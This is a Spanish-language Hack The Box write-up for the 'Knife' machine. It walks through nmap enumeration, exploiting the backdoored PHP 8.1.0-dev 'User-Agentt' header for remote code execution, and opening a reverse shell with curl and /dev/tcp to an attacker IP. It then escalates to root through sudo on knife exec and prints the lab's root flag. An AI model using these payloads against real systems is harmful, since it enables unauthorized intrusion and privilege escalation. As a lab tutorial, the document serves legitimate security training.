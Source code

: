 # HACK THE BOX PEN - TESTING LABS
## MACHINE KNIFE
> ![alt text](https://i.postimg.cc/D0dT6YjV/knife.png)
---

### Sinopsis 
Knife es una máquina Linux de fácil dificultad que cuenta con una aplicación que se ejecuta en una versión backdoored de PHP. Esta vulnerabilidad se aprovecha para obtener el punto de apoyo en el servidor. A continuación, se explota una configuración errónea de sudo para obtener un shell de root.
### Habilidades Aprendidas

> * Enumeración y escaneo.
> * Conexion remota con Netcat.
> * Enumeración
> * Conocimientos básicos de Linux
> * OWASP Top 10
> * Explotación Web

## Enumeración y Escaneo

Para iniciar la fase de reconocimiento, se puede verificar la conectividad del equipo víctima; para esto se puede usar el protocolo _ICMP_, y con el _ttl_ obtenido se puede verificar la version del sistema.

#### Validación de conectividad.
```java
ping -c 1 10.10.10.242
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.242: icmp_seq=1 ttl=63 time=91.7 ms
--- 10.10.10.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 91.713/91.713/91.713/0.000 ms

```
>*_Nota_*: el parametro *_-c_* de la traza icmp, permite enviar los paquetes asignados para la prueba, en el ejemplo anterior un solo paquete. Y como se pude interpretar, el ttl corresponde a una maquina linux.

### Escaneo y enumeración de servicios
Para la etapa de identificación de viulnerabilidades utilizamos la herramienta *_nmap_*, que servirá para verificar los servicioes y puertos expuestos.

#### Identicación de puertos y servicios con nmap. 65535 Puertos.
```java
# nmap -p- --open -T5 -v -n -oG allPorts 10.10.10.242
# nmap  -p- --open -sS --min-rate 5000-vvv -n -Pn 10.10.10.242 -oG allPorts
```
Con nmap se puede agregar el flag `-sCV`, para extaer mas detalles de la enumeración.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/knife/nmap]
└─# nmap -p22,80 -sCV 10.10.10.242 -oN targeted
───────────────────────────────────────────────────────────────────────────────────────────────────────────
File: targeted
───────────────────────────────────────────────────────────────────────────────────────────────────────────
# Nmap 7.93 scan initiated Wed Jan 25 21:08:31 2023 as: nmap -p22,80 -sCV -oN targeted 10.10.10.242
Nmap scan report for 10.10.10.242
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan 25 21:08:46 2023 -- 1 IP address (1 host up) scanned in 14.72 seconds
───────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Con el puerto numero 80 abierto, se puede obtener información con `whatweb` para obtener información del servicio.
```java
┌──(root㉿kali)-[/home/…/CTF/HTB/knife/nmap]
└─# whatweb http://10.10.10.242                                           
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```
Con la enunmeración se encontró una verisón de php `PHP[8.1.0-dev]`, que tiene vulnerabilidad de `User - Agentt` que se puede explotar.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c]
└─# searchsploit php 8.1.0-dev
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution       | php/webapps/49933.py
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
Examinando el archivo se pueder verificar mediante el `User-Agentt:`, se puede probar inyectando por la cabecera http.
```java
 headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
```

Se puede hacer una petición mediante la cabecera utilizando curl
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB/knife]
└─# curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');" | html2text
uid=1000(james) gid=1000(james) groups=1000(james)
    * About EMA
    * /
    * Patients
    * /
    * Hospitals
    * /
    * Providers
    * /
    * E-MSO

***** At EMA we're taking care to a whole new level . . . *****
****** Taking care of our  ******
```
### Detalles
> * **-s.-** Ejecutar modo silencioso.
> * **-X.-** Es parametro cuando se va especificar petición http.
> * **-H.-** Para enviar una petición mediante las cabeceras.
> * **-html2text.-** Para preformatear a la petición html

Se puede ejecutar una shell reversa mediante la ejecución de comandos, por lo que previo a esto se debe hacer una escucha mediante nc, dabe recalcar que se debe escapar las comillas.
```java
┌──(root㉿kali)-[/home/s3cur1ty3c/CTF/HTB/knife]
└─# curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.16.15/443 0>&1 \"');" 
```
Una vez ganado acceso toca hacer tratamientod de la tty, y con eso podemo ver si existen `sudo -l`.

```java
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```
Con el archivo encontrado `/usr/bin/knife`, se puede verificar con `gtfObins`.
```java
james@knife:~$ sudo knife exec -E 'exec "/bin/bash"'
root@knife:/home/james# cd ~
root@knife:~# ls -la
total 56
drwx------  7 root root 4096 May 18  2021 .
drwxr-xr-x 20 root root 4096 May 18  2021 ..
lrwxrwxrwx  1 root root    9 May  8  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3137 May  7  2021 .bashrc
drwx------  2 root root 4096 May  7  2021 .cache
drwx------  3 root root 4096 May 18  2021 .chef
-rwxr-xr-x  1 root root  105 May  8  2021 delete.sh
drwxr-xr-x  3 root root 4096 May  7  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-------  1 root root 1024 May  8  2021 .rnd
-r--------  1 root root   33 Jan 26 01:47 root.txt
-rw-r--r--  1 root root   66 May  8  2021 .selected_editor
drwxr-xr-x  3 root root 4096 May  6  2021 snap
drwx------  2 root root 4096 May  6  2021 .ssh
-rw-------  1 root root 2413 May 18  2021 .viminfo
root@knife:~# cat root.txt 
349a1d189b251379884e9c75339b9f51
```